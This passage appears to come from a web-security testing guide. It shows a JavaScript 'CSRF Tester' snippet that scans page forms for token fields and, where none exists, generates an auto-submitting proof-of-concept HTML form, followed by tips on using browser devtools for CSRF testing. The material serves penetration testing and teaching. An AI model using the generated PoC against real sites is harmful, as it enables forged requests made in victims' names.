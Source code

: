         // Find all forms
        const forms = Array.from(document.querySelectorAll('form'));
        console.log(`[CSRF Tester] Found ${forms.length} forms`);
        
        forms.forEach((form, index) => {
          console.log(`[CSRF Tester] Analyzing form #${index + 1}:`);
          console.log(`[CSRF Tester] Action: ${form.action}`);
          console.log(`[CSRF Tester] Method: ${form.method}`);
          
          // Look for CSRF tokens
          const inputs = Array.from(form.querySelectorAll('input'));
          const csrfInputs = inputs.filter(input => 
            input.name && (
              input.name.toLowerCase().includes('csrf') || 
              input.name.toLowerCase().includes('token')
            )
          );
          
          if (csrfInputs.length === 0) {
            console.warn(`[CSRF Tester] WARNING: No CSRF token found in form #${index + 1}`);
            // Generate PoC
            generatePoC(form);
          } else {
            console.log(`[CSRF Tester] Found ${csrfInputs.length} potential CSRF tokens:`);
            csrfInputs.forEach(input => {
              console.log(`[CSRF Tester]   - ${input.name}: ${input.value}`);
            });
          }
        });
        
        function generatePoC(form) {
          const inputs = Array.from(form.querySelectorAll('input')).filter(i => i.name);
          let html = `<html>\n<body>\n<form id="csrf-form" action="${form.action}" method="${form.method || 'get'}">\n`;
          
          inputs.forEach(input => {
            if (input.type !== 'submit' && input.type !== 'button') {
              html += `  <input type="hidden" name="${input.name}" value="${input.value || ''}">\n`;
            }
          });
          
          html += `</form>\n<script>\ndocument.getElementById("csrf-form").submit();\n</script>\n</body>\n</html>`;
          
          console.log("[CSRF Tester] Generated PoC:");
          console.log(html);
        }
      })();
      ```

  - **Browser devtools for CSRF testing**
    - Network monitor for token analysis:
      - Inspect request/response headers
      - Monitor cookie attributes
      - Track token generation and usage
    - Application tab for cookie inspection:
      - Review SameSite attributes
      - Check HttpOnly and Secure flags
      - Test cookie manipulation
    - Console for debugging and testing:
      - JavaScript token analysis
      - Cross-origin request testing
      - Form manipulation and submission
